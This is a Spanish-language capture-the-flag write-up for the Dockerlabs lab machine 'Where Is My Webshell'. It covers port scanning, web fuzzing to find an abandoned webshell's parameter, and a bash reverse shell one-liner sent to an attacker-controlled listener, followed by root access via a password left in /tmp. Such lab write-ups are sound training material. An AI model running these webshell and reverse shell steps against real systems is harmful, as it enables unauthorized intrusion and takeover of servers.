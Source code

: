 # Writeup de la Máquina Where Is My Webshell de Dockerlabs

Lo primero que hago es realizar un escaneo de todos los puertos que tenga abiertos la máquina con la herramienta nmap.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
![Primer nmap](_images/Screenshot_1.png)

Una vez realizado el escaneo recojo los puertos abiertos con la utilidad extractPorts, del fichero donde se ha guardado el escaneo de nmap. 

```bash
extractPorts allPorts
```
![ExtractPorts](_images/Screenshot_2.png)

Teniendo el puerto copiado procedo a ejecutar un escaneo más profundo solo para el puerto 80 con nmap.

```bash
sudo nmap -p80 -sCV 172.17.0.2 -oN targeted
```

![Segundo Nmap](_images/Screenshot_3.png)

Al ver que tiene el puerto 80 decido mirar las tecnologías utilizadas en la web con whatweb.

```bash
whatweb http://172.17.0.2
```
![Nmap 2](_images/Screenshot_3.png)

Dado a que me saca pocas tecnologías decido abrir la página en el navegador.

![Whatweb](_images/Screenshot_4.png)

Lo primero que se muestra es una página sencilla, si miramos al final de la página nos dejan una pista.

![Navegador](_images/Screenshot_6.png)
![Navegador 2](_images/Screenshot_7.png)

Viendo que no encuentro nada más decido hacer web fuzzing con gobuster, esta herramienta me reporta dos archivos interesantes, estos son shell.php y warning.html .

```bash
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.2 -x html,php,txt,js
```
![Gobuster](_images/Screenshot_8.png)

En la página warning.html dejan saber que la web ha sido atacada por otro hacker y que ha dejado una webshell pero que no recuerda el parámetro.

![Warning](_images/Screenshot_9.png)
![Warning](_images/Screenshot_10.png)

Para sacar el parametro utilizo la herramient wfuzz para conseguir el nombre del parámetro.

```bash
wfuzz -c --hl 0 --hc 404 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 'http://172.17.0.2/shell.php?FUZZ=id'
```

![Wfuzz](_images/Screenshot_11.png)


Ya con el parametro descubierto consigo una webshell operativa. 

![Webshell](_images/Screenshot_12.png)

Teniendo ya la webshell decido enviarme una reverse shell por el puerto 443.

```bash
sudo nc -nvlp 443
```

![Nc](_images/Screenshot_13.png)

Para realizar la reverse shell se la paso urlencodeada.

```bash
bash -c 'bash -i >& /dev/tcp/192.168.13.130/443 0>&1'
```

![revshell](_images/Screenshot_15.png)

![revshell 2](_images/Screenshot_16.png)

Una vez dentro del servidor voy a la carpeta /tmp que según la pista de antes hay algo y este algo es la contraseña de root.


![Server 1](_images/Screenshot_17.png)
![Escalada de privilegios](_images/Screenshot_18.png)

Una vez teniendo la contraseña cambio al usuario root y así se completaría la máquina.

```bash
su root
```

![Escalada de privilegios 2](_images/Screenshot_19.png)